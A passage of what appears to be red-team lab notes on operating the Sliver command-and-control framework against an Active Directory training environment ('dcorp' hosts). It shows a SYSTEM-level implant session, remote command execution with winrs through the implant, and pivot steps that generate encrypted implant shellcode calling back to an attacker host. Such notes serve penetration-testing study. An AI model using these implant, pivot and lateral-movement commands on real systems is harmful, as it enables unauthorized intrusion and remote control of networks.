The newly-received session is a high-integrity one:

```powershell
[server] sliver > sessions
172.16.100.37:53990   dcorp-std337   dcorp\student337 # old session
172.16.100.37:54921   dcorp-std337   NT AUTHORITY\SYSTEM # new session
```
{% endtab %}

{% tab title="RCE" %}
Command execution can be achieved using the `execute` command, which spawns a specified process on the host where the implant is running. The `-o` flag is used to capture the output of the executed process. It's important to note that `execute` runs under the security context of the implant's current token by default, meaning any remote interaction is limited by that token’s privileges.

{% code overflow="wrap" %}
```powershell
 > execute -o -S -t 180 winrs -r:dcorp-adminsrv 'set username & set computername'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Pivot

{% code overflow="wrap" %}
```powershell
# Create a TCP pivot listener
pivots tcp --lport 8081

# Generate the corresponding implant
generate --tcp-pivot <attacker-IP>:8081 -f shellcode -e --name dcorp-adminsrv_tcp -s ./dcorp-adminsrv_tcp.bin
```
{% endcode %}
